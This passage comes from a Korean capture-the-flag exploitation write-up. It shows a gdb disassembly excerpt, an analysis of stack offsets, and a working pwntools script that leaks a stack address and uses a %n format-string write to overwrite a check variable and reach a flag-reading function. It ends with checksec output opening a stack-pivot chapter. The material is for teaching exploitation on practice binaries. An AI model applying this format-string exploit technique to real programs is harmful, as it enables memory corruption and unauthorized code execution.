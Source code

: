 ```bash
   0x0000000000401445 <+174>:   mov    edx,0x100
   0x000000000040144a <+179>:   mov    esi,0x0
   0x000000000040144f <+184>:   mov    rdi,rax
   0x0000000000401452 <+187>:   call   0x401100 <memset@plt>
   
   중략
   
   0x000000000040155a <+451>:   leave
   0x000000000040155b <+452>:   ret
End of assembler dump.
```

`init` 실행 후에 `&exist` 값을 넣어주는 것을 보아 `rbp - 0x118`이 `exitst_or_not`의 주소임을 알 수 있습니다. `memset`의 `rdi`에 `rbp-0x110`이 들어가는 것을 보아 `rbp-0x110`이 `buf`의 주소임을 알 수 있습니다. 따라서 `buf`의 주소에서 8을 빼면 `exitst_or_not`의 주소가 됩니다. 구하려고 하는 것들을 전부 구했으므로 `fsb`와 2번 메뉴를 이용해 `open_emergency_medicine`를 실행시켜 `flag`를 읽을 수 있습니다.

- 익스플로잇

```python
from pwn import *
context.arch = 'amd64'
p = process('./fsb')

def fsb(msg : bytes):
    p.sendlineafter(b'> ', b'1')
    p.send(msg + b"\n")
    return p.recvline()[:-1]

oem = 0x401256
stack = int(fsb(b"%p"), 16)
addr_exitst_or_not = stack - 8
payload = f"aa%{oem - 2}c%10$n".encode() + p64(addr_exitst_or_not)
fsb(payload)
p.sendlineafter(b'> ', b'2')
p.interactive()
```

`pwntools` 라이브러리에서 `fmtstr_payload`라는 좋은 함수를 제공하고 있습니다. 하지만 CTF나 실제 환경에서는 `payload`를 직접 작성해야 하는 경우가 많기 때문에 함수를 이용하는 것보단 직접 생각하여 짜는 것을 추천드립니다.

---
### Chapter 9

- 보호기법 분석

```bash
[*] '/home/On_the_Edge_of_Time/pivot'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
